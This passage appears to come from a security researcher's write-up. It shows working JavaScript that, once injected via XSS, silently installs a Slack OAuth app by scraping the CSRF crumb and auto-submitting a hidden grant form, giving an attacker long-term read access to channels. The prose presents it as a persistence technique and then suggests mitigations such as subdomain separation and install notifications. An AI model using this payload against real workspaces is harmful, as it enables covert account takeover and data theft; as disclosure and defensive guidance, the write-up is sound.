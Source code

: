 ```javascript
fetch(location.origin + "/oauth/authorize?scope=channels:history+users.profile:read&client_id=496141141553.514835337734").then(function(response) {
    response.text().then(function (text) {
                var oauthPath = text.split('<noscript><meta http-equiv="refresh" content="0; URL=')[1].split('?')[0];
        fetch(location.origin + oauthPath).then(function(response){
                        response.text().then(function (text) {
                                var crumb = text.split('type="hidden" name="crumb" value="')[1].split('"')[0];
                                var evilForm = `<form id="potatoCarrots" action="${oauthPath}" method="post" accept-encoding="UTF-8"><input type="hidden" name="create_authorization" value="1" /><input type="hidden" name="crumb" value="${crumb}" /></form><script>document.getElementById('potatoCarrots').submit()</script>`

                                document.write(evilForm)
            })
        })
    });
  })
  ```

The above code ran in the context of XSS on your workspace will install an Oauth app with the scope `channel:history`. This grants an attacker long term read access to public channels in your workspace.

## Summary
Installing Oauth applications is a reliable way for attackers to give themselves long term persistence on a victim's account. XSS is a convenient vector to install the application, without the victim knowing.

This serves as a better replacement for the classical `document.cookie`  XSS vector to get long lived account access.

Here is a partial, but incomplete list of websites that support Oauth https://en.wikipedia.org/wiki/List_of_OAuth_providers

### Suggestions

Slack and Github send email notifications to users on app install. This is a good control to notify users something might be wrong.

Github also puts extra controls in place requiring a password be re-entered for sensitive oauth grants. This can be bitter/sweet, as it normalizes users to entering sensitive credentials into the application on a regular basis. For that reason, the above password harvesting technique may be more effective on the user base. That said, prevents this automated Oauth token stealing for those scopes. 

Another effective control would be to move Oauth app grants onto its own subdomain. This limits the attack surface for XSS, as an attacker would need to find an injection point on the same origin, which could be extremely limited in scope to just the Oauth grant.

Some providers, such as Google, already have subdomain seperation of the Oauth grant page. That said, most of the ones I looked at, did not put the Oauth grant page on its own origin.

For this reason, I believe XSS on the same origin as the Oauth grant origin, reflected, stored or DOM, should be treated as considerably higher severity than XSS on origin's that don't host Oauth grants.
